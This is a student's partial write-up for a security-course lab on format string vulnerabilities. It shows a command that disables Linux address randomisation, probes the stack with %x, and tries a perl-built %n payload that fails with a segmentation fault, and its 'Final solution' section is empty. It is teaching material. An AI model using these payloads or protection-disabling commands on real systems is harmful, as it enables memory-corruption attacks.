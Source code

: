 # Solutions TP7
> Author(s): Guillaume Everarts de Velp  
> Last update: 26-03-2020

**Progress**
 - [x] [7.1 Environment Configuration](#71-environment-configuration)
 - [ ] [7.2 Evading Stack Protection](#72-format-string)

## 7.1 Environment Configuration
> This is the same at last week, but repeated so you don't forget.
> 
> On most Linux systems and with most compilers there are protections built in to prevent various exploits. For today's tutorial > we may have to turn some of these off (and back on again later).
> 
> One is the randomisation of memory segments by the Linux kernel. We can see the current value with `sudo cat /proc/sys/kernel/randomize_va_space`
> This is "2" by default on Kali Linux (and most Linux systems). To turn this off for the rest of the sessions by setting the value to "0" we can run `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`
> Afterwards, confirm we have turned off memory segment randomisation with `sudo cat /proc/sys/kernel/randomize_va_space`
> 
> Note that this will be changed later in the tutorial at different times.

## 7.2 Format String
> Here you will find a program "example.c" that has a format string vulnerability in the printf statement that you can use.
> 
> This is a program designed to help you explore how to abuse format string and pass in parameters. You can build the program with: `gcc -o example example.c` and then run it with format string arguments, for example: `./example "%x %x %x %x"` will print out some values on the stack.
> 
> Observe that there is a value called "test_value" that you MAY be able to modify.
> 
> NOTE: Due to memory layout and your architecture it MAY NOT be easy or possible to inject a format string (e.g. your address may require a \x00 which would break the formatting). For the rest of this section, you can also use format1.c or format2.c if these have better memory layout for you (e.g. you want to change values on the stack).
> 
> The goal now is to use a format string to change the value of either "test_val" in example.c, or "target" in format1.c or format2.c.
> 
> HINT: The format string component "%n" writes back from format string into an address. You can use this to change the value of one of the "arguments" to the function using your format string.

### Idea :bulb:
The main idea will be to use `%n` as an argument passed to a vulnerable *printf* to write a value in memory.  To do so, we can pass at the beginning of the string the address we are willing to write on, then insert as many "parameter sollicitation" as we need to reach the begin of the string in memory (with `%x` for example), and finally add `%n`, which will count the number of characters printed until now and write it in the address given by then next argument on the stack, which would be in our case the address at the beginning of the string.

### Step by step :walking:
**1. `example.c` Address to write on** Here things seems quite straithforward.  By playing a little bit with the executable, we can see that the pointer of the value we would like to overwrite is given (and shouldn't change from one execution to the other).
```console
admin@kali:~/SecurityClass/Tutorial-07$ ./example test
the right way to do things:
test
the wrong way to do things:
test
test val is -72 at 0x00404028 and contains 0xffffffb8
```

**2. `example.c` Malicious string location** The goal will be to go up the stack until we reach the begging of our string, where we can pass the address to print on.  We then want to know how many steps are we from the beginning of this string.  To do so, we can simply pass a string starting with some well known characters, then go up as far as we can and see where we started seeing those characters.
```console
the right way to do things:
AAAA %x %x %x %x %x %x %x %x %x %x
the wrong way to do things:
AAAA bffff586 bfffef9c 4011e3 41414141 20782520 25207825 78252078 20782520 25207825 78252078
test val is -72 at 0x00404028 and contains 0xffffffb8
```
We can see that we reach the beginning of the string "41414141" with the fourth `%x`, meaning than we will need to add three of them before `%n` in order to have `%n` to read the beginning of the string as the pointer to write to.

**3. `example.c` Putting it all together** All we need know is put the address at the beginning of the string, add three `%x` and our magical `%n` and we should write then length of the string to *test_val*.
```console
admin@kali:~/SecurityClass/Tutorial-07$ ./example "`perl -e 'print "\x00\x40\x40\x28" . " %x"x3 . " %n"'`"
bash: warning: command substitution: ignored null byte in input
the right way to do things:
@@( %x %x %x %n
the wrong way to do things:
Segmentation fault
```
But of course it doesn't work, we can see that bash warns us that the null byte is ignored, meaning that the pointer we pass to `%n` won't be the right one, which causes a segmentation fault.



### Final solution :running:
